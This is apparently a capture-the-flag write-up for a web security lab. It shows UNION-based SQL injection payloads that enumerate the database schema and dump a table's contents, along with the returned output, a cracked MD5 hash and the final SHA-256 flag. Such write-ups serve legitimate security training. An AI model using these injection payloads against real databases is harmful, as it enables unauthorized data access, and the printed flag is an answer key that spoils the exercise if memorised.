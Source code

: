 On the image search page, we see that we also have a database that is not protected against SQL Injections.  

-> There are 2 columns, Title and Url.

```
ID: 1 OR 1=1 UNION SELECT table_schema, table_name FROM information_schema.columns; 
Title: list_images
Url : Member_images
```

let's find the columns of the `list_images` table  
There are 4 columns :  
```
id
url
title
comment
``` 

![list_images](list_images_table.png)  

```
ID: 1 OR 1=1 UNION SELECT title, comment FROM list_images 
Title: If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
Url : Hack me ?
```  

1928e8083cf461a51303633093573c46 -> md5 -> albatroz  
> albatroz -> sh256 -> f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188